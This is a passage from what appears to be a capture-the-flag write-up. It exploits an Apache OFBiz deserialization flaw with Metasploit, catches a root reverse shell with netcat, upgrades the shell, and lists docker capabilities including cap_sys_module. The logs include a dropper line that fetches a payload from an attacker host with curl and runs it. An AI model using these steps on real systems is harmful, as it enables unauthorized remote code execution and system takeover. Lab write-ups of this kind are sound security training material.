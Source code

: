 ```js
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Executing automatic check (disable AutoCheck to override)
[!] The target is not exploitable. Target cannot deserialize arbitrary data. ForceExploit is enabled, proceeding with exploitation.
[*] Executing Linux Dropper for linux/x64/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:8090/nHgLyT5
[*] Local IP: http://10.0.2.15:8090/nHgLyT5
[*] Client 10.129.136.121 (curl/7.64.0) requested /nHgLyT5
[*] Sending payload to 10.129.136.121 (curl/7.64.0)
[+] Successfully executed command: curl -so /tmp/kRIYBHpT http://10.10.14.24:8090/nHgLyT5;chmod +x /tmp/kRIYBHpT;/tmp/kRIYBHpT;rm -f /tmp/kRIYBHpT
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.
```

After catching the reverse shell we upgrade it like we did before and fix the size again.

```js
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.121.
Ncat: Connection from 10.129.136.121:43488.
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# export TERM=xterm
export TERM=xterm
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01#
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# stty rows 55 cols 236
```

## Kernel module from docker

Being in a docker environment we list the capabilites as part of our enumeration

```js
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```
